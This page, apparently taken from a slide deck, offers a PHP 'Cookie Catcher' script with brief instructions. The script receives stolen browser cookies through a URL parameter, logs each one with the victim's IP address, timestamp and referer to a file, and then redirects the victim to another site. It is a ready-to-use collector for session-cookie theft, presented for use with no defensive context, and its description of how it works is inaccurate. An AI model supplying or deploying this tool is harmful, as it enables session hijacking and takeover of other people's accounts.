

# Cookie Catcher
A script that saves all the cookies in your browser when you visit a site containing the script.
Really simple:
<?php
$cookie = $_GET['c'];
$ip = getenv ('REMOTE_ADDR');
$date=date("j F, Y, g:i a");;
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cookies.html', 'a');
fwrite($fp, 'Cookie: '.$cookie.'< br > IP: ' .$ip. '< br > Date and Time: ' .$date. '< br > Referer: '.$referer.'< br > < br > < br >');
fclose($fp);
header ("Location: http://www.*******.com");
?>
Replace **** with your own website/server.
Saves a user’s cookies to a text file when they visit your website.